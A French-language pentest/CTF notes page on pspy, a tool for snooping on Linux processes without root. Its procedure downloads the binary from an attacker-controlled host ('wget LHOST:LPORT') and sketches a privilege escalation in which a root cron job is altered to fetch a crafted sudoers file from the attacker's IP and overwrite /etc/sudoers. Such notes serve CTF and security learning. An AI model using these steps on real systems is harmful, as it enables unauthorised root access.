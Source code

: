 <sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](linux.md)</sub>
#pspy : Unprivileged Linux process snooping

**Présentation :** pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

**Help :**
- https://github.com/DominicBreuker/pspy

**Procédure :**

- télécharger directement les binaires depuis son serveur. ex => *wget **LHOST**:**LPORT**/pspy64*
- se donner les droits de l'exécuter : *chmod +x pspy64*
- l'exécuter : *./pspy64*
- plus qu à attendre pour voir les process en cours qui tournent
  - Si un job tourne régulièrement 
    - exemple : https://hipotermia.pw/htb/curling
    - si un job tourne et qu on peut modifier le job... surtout si le job est executé comme root !
      - exemple : 
        -  je créé un fichier sur mon pc : ex my_sudoers
            <code> root	ALL=(ALL:ALL) ALL
            *USER_USED*	ALL=(ALL:ALL) ALL</code>
        - je prépare mon serveur pour le déposer
        - je modifie le job pour modifier le fichier sudoers et me donner les droits root. ex : *url = "http://**MON_IP**/**FILE_NAME**:**PORT**"\noutput = "/etc/sudoers"*
